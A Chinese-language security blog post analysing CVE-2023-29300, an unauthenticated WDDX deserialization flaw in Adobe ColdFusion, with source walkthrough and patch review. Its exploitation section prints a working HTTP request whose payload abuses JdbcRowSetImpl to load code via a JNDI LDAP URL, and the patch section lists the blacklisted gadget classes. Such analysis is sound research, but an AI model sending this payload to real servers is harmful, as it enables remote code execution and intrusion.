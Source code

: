 

# Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300 - 先知社区

Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300

- - -

[![](assets/1706255648-2ae8c9f4352fc4f41fd2b52cec7b4601.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081313-b1ff1508-bbdf-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.18、Adobe ColdFusion < 2021.0.7  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

[上篇文章](https://xz.aliyun.com/t/13392) ，我们讲到 **coldfusion.filter.FilterUtils#WDDXDeserialize()** 里存在一个反序列化操作，里面反序列化处理类为 **coldfusion.wddx.WddxDeserializer** 。

[![](assets/1706255648-5027782fa99943296954d19f5e83fafc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081328-babec3e6-bbdf-1.png)

我们可以先来简单的看一下 **Adobe ColdFusion** 中，对 **wddx** 数据的序列化和反序列化操作。先来看序列化。当我们使用 **coldfusion.wddx.WddxSerializer** 序列化一个对象时，序列化的结果会保存这个对象的完整信息。这些信息包括：类名、属性名、属性值。

[![](assets/1706255648-a51379fe8388127111ca3832a418d07f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081337-c024a062-bbdf-1.png)

```bash
<wddxPacket version='1.0'><header/><data><struct type='LUser;'><var name='password'><string>123456</string></var><var name='username'><string>mochazz</string></var></struct></data></wddxPacket>
```

那么我们能通过反序列化，将这串 **xml** 还原成一个类吗？答案是：可以。

[![](assets/1706255648-0aa0fedc28c3bf7d809f3dc3f42ed84b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081346-c5ae10e0-bbdf-1.png)

接下来，我们来看看 **coldfusion.wddx.WddxDeserializer** 是如何将 **wddx** 数据，恢复成一个对象的。我们在上面的 **xml** 数据中，能看到很多不同的标签，比如：**wddxPacket、header、struct、var** 等。每个标签实际上都有一个对应的 **handler** ，**xml** 解析器后续会依次调用这些 **handler** 的 **onStartElement()、onEndElement()** 方法。

[![](assets/1706255648-0d6234e5b738077f3b9a53b8083d5fa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081356-cb8b4050-bbdf-1.png)

我们来看 **StructHandler** 的 **onEndElement()** 方法。该方法有 3 个关键操作。

-   第 1 个操作：会把 **type** 的值作为类名，并调用 **getClassBySignature()** 去加载这个类
-   第 2 个操作：调用这个类的无参构造方法
-   第 3 个操作：调用 **setter** 方法给类的属性赋值

[![](assets/1706255648-fbf0a6e05c33340a26a9eb68d764deda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081404-d0643d66-bbdf-1.png)

根据 **getClassBySignature()** 方法加载类的规则，当我们指定 **type** 的值为 **Ejava.lang.StringE** 时，即可加载到 **java.lang.String** 类。

[![](assets/1706255648-110956956855588488e97533996eb9dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081412-d53d87d4-bbdf-1.png)

接着再来看 **coldfusion.wddx.StructHandler#setBeanProperties()** 方法是如何给类的属性赋值的。程序通过遍历目标对象的 **PropertyDescriptor** ，并根据用户输入的类属性名，调用对应的 **setter** 方法。

[![](assets/1706255648-56fca5944e56dee964b58d82a1a1ba7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081420-da3ce180-bbdf-1.png)

因此，我们可以得到一个结论： **coldfusion.filter.FilterUtils#WDDXDeserialize()** 函数可以调用任意类的 **setter** 方法。当然，调用的前提是目标类得有公有的无参构造方法，以及公有的单参数 **setter** 方法。这里，我们就可以选择最常被利用的 **com.sun.rowset.JdbcRowSetImpl** 类，通过触发 **JNDI** 实现 **RCE** 。

## 漏洞利用

```bash
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:8888/exploit</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

[![](assets/1706255648-d38c203917bf483e0d949c0b3d42a17b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081430-e0361bb0-bbdf-1.png)

## 补丁分析

官方补丁中，添加了一个 **coldfusion.wddx.WddxFilter** 过滤器，通过黑、白名单来过滤反序列化加载的类名。以 **coldfusion** 开头的类，均属于白名单。黑名单规则为： **!org.mozilla.\*\*;!com.sun.syndication.\*\*;!org.apache.commons.beanutils.\*\*;!org.jgroups.\*\*;!com.sun.rowset.\*\*;** 。

[![](assets/1706255648-55e555be923812bea2cfc0e52b00d7b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081441-e6b4fd44-bbdf-1.png)

[![](assets/1706255648-532f130d31a09b4bb85d8afd68038f5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081446-e986e5be-bbdf-1.png)

从官方拦截的黑名单中，我们可以倒推出漏洞提交者使用的一些恶意类。例如：通过 **org.jgroups.blocks.ReplicatedTree.setState()** 进行二次反序列化。

[![](assets/1706255648-9ada05228ad65ae8cd2e64387a9fdf66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081456-ef30a540-bbdf-1.png)

## 参考文章

[https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
